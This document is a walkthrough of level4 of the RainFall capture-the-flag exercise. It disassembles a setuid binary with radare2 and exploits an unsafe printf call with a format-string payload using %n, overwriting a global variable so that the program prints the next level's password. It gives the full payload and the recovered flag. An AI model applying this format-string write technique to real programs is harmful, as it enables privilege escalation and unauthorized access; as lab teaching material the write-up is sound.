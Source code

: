 # Level4

As in level3, we can find an executable waiting for an input, print it and quit after press enter
```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ ./level4
bla
bla
level4@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `n()` who also call a function named `p()`.  
- main() :
```
[0x08048390]> s main
[0x080484a7]> pdda
    ; assembly                               | /* r2dec pseudo code output */
                                             | /* level4 @ 0x80484a7 */
                                             | #include <stdint.h>     
                                             |
    ; (fcn) main ()                          | int32_t main (void) {   
    0x080484a7 push ebp                      |
    0x080484a8 mov ebp, esp                  |
    0x080484aa and esp, 0xfffffff0           |
    0x080484ad call 0x8048457                |     n ();
    0x080484b2 leave                         |
    0x080484b3 ret                           |
                                             | }
[0x080484a7]>
```
- n() :
```
[0x080484a7]> s sym.n
[0x08048457]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level4 @ 0x8048457 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.n ()                             | int32_t n (void) {
                                                 |     char * s;
                                                 |     int32_t size;
                                                 |     FILE * stream;
    0x08048457 push ebp                          |
    0x08048458 mov ebp, esp                      |     
    0x0804845a sub esp, 0x218                    |
    0x08048460 mov eax, dword [0x8049804]        |     eax = stdin;
    0x08048465 mov dword [esp + 8], eax          |     *((esp + 8)) = eax;
    0x08048469 mov dword [esp + 4], 0x200        |     *((esp + 4)) = 0x200;
    0x08048471 lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x08048477 mov dword [esp], eax              |
    0x0804847a call 0x8048350                    |     fgets (ebp);
    0x0804847f lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x08048485 mov dword [esp], eax              |
    0x08048488 call 0x8048444                    |     p (eax);
    0x0804848d mov eax, dword [0x8049810]        |     eax = *(obj.m);
    0x08048492 cmp eax, 0x1025544                |
                                                 |     if (eax == 0x1025544) {
    0x08048497 jne 0x80484a5                     |
    0x08048499 mov dword [esp], 0x8048590        |
    0x080484a0 call 0x8048360                    |         system ("/bin/cat /home/user/level5/.pass");
                                                 |     }
    0x080484a5 leave                             |
    0x080484a6 ret                               |     return eax;
                                                 | }
[0x08048457]>
```
- p() :
```
[0x08048457]> s sym.p
[0x08048444]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level4 @ 0x8048444 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.p ()                             | int32_t p (char * format) {
    0x08048444 push ebp                          |
    0x08048445 mov ebp, esp                      |
    0x08048447 sub esp, 0x18                     |
    0x0804844a mov eax, dword [ebp + 8]          |     eax = *((ebp + 8));
    0x0804844d mov dword [esp], eax              |
    0x08048450 call 0x8048340                    |     printf (eax);
    0x08048455 leave                             |
    0x08048456 ret                               |     return eax;
                                                 | }
[0x08048444]>
```
The `main()` only call `n()`, not very interesting so we can skip it.  
We can see a call to `fgets()`, in `n()`, wich is protect against buffer overflow attack.
```
    0x0804847a call 0x8048350                    |     fgets (ebp);
```
After that we can see a call to `printf()` function, in `p()` wich is vulnerable to format string exploit!
```
    0x08048450 call 0x8048340                    |     printf (eax);
```
Then the program compares the value of a global variable `m` at `0x8049810` to 0x1025544 (16930116 in dec).  
If the comparaison return true then the function will launch a shell via a call to `system()`.  
We need to manipulate `printf()` function into changing the value of the variable at the address `0x8049810`.   
First, as in [level2](https://github.com/maxisimo/42-RainFall/blob/main/level2/walkthrough.md) we need to print the memory until we reach the address of the variable we wish to modify, then change the content of the variable `m`.
```
level4@RainFall:~$ python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
aaaa b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0
level4@RainFall:~$ python -c 'print "aaaa" + " %x" * 15' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
aaaa b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
level4@RainFall:~$
```
The buffer `aaaa` is at the 12th position (`61616161`) !  
The previous method can't work, cause the value `16930116` in the comparaison is too long. But with the modifier `%d`, we can dynamically specify the field width (like that : `%16930116d`).  
This will be the only difference between this level and the older one.  
Finally our final format string attack will look like :  
- address of `m` (4 bytes)
- pad of 16930112 (sub 4 bytes cause of `m`) with modifier `%d` + modifier `%n`
```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ su level5
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$
```
*For this level we didn't have to keep listening `stdin` cause the `system()` function made a "/bin/cat /home/user/level5/.pass"*
Level4 passed!
